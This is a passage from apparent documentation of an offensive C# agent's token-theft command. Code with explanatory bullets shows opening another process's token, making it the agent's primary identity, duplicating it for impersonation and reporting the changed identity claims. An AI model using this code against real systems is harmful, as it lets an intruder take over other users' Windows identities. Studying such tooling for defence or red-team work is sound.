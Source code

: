 #### 5. Primary Token Extraction
```csharp
bool bRet = _pOpenProcessToken(
    procHandle,
    TokenAccessLevels.Duplicate | TokenAccessLevels.AssignPrimary | TokenAccessLevels.Query,
    out hProcessToken);

if (!bRet)
{
    errorMessage = $"Failed to open process token: {Marshal.GetLastWin32Error()}";
}
else
{
    _agent.GetIdentityManager().SetPrimaryIdentity(hProcessToken);
}
```
- Calls `OpenProcessToken` with required access levels
- Requests Duplicate, AssignPrimary, and Query access
- Sets extracted token as agent's primary identity
- Handles token extraction failures with Win32 error codes

#### 6. Impersonation Token Creation
```csharp
bRet = _pDuplicateTokenEx(
    hProcessToken,
    TokenAccessLevels.MaximumAllowed,
    IntPtr.Zero,
    TokenImpersonationLevel.Impersonation,
    1, // TokenImpersonation
    out hImpersonationToken);

if (!bRet)
{
    errorMessage = $"Failed to duplicate token for impersonation: {Marshal.GetLastWin32Error()}";
}
else
{
    _agent.GetIdentityManager().SetImpersonationIdentity(hImpersonationToken);
}
```
- Duplicates primary token for impersonation use
- Requests maximum allowed access on duplicated token
- Sets impersonation level to TokenImpersonationLevel.Impersonation
- Sets token type to 1 (TokenImpersonation)
- Updates agent's impersonation identity

#### 7. Identity Comparison and Reporting
```csharp
var old = _agent.GetIdentityManager().GetCurrentImpersonationIdentity();
_agent.GetIdentityManager().SetImpersonationIdentity(hImpersonationToken);
var cur = _agent.GetIdentityManager().GetCurrentImpersonationIdentity();

var stringOutput = $"Old Claims (Authenticated: {old.IsAuthenticated}, AuthType: ";
try
{
    stringOutput += $"{old.AuthenticationType}):\n";
}
catch
{
    stringOutput += $"AccessDenied):\n";
}

foreach (var item in old.Claims)
{
```